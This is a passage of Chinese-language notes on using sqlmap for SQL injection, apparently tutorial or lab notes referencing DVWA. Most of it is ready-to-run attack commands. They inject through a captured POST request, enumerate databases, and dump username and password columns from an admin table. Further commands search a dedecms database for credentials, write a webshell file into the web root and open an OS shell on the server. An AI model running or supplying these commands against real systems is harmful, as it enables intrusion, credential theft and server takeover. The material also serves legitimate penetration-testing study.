 可以使用burpsuite或者temperdata等工具来抓取post包

sqlmap -r "c:\tools\request.txt" -p "username" --dbms mysql    指定username参数

## 注入成功后

### 获取数据库基本信息（如果是python环境的话，前面还要加上python字样

sqlmap -u " "  --dbms mysql --level 3 --dbs

查询有哪些数据库

sqlmap -u " "  --dbms mysql --level 3 -D test --tables

查询test数据库中有哪些表

sqlmap -u " "  --dbms mysql --level 3 -D test -T admin --columns

查询test数据库中admin表有哪些字段

sqlmap -u " "  --dbms mysql --level 3 -D test -T admin -C "username,password" --dump

dump出字段username与password中的数据

其他命令参考下面

### 从数据库中搜索字段

sqlmap -r "c:\tools\request.txt" --dbms mysql -D dedecms --search -C admin,password
在dedecms数据库中搜索字段admin或者password。

### 读取与写入文件

首先找需要网站的物理路径，其次需要有可写或可读权限。

--file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
--file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
\#示例：
sqlmap -r "c:\request.txt" -p id --dbms mysql --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

使用shell命令：

sqlmap -r "c:\tools\request.txt" -p id --dms mysql --os-shell
接下来指定网站可写目录：
“E:\php\htdocs\dvwa”

\#注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp_dirtree函数）

## sqlmap详细命令：

- --is-dba 当前用户权限（是否为root权限）
- --dbs 所有数据库
- --current-db 网站当前数据库
- --users 所有数据库用户
- --current-user 当前数据库用户
- --random-agent 构造随机user-agent
- --passwords 数据库密码
- --proxy http://local:8080 --threads 10 (可以自定义线程加速) 代理
- --time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）
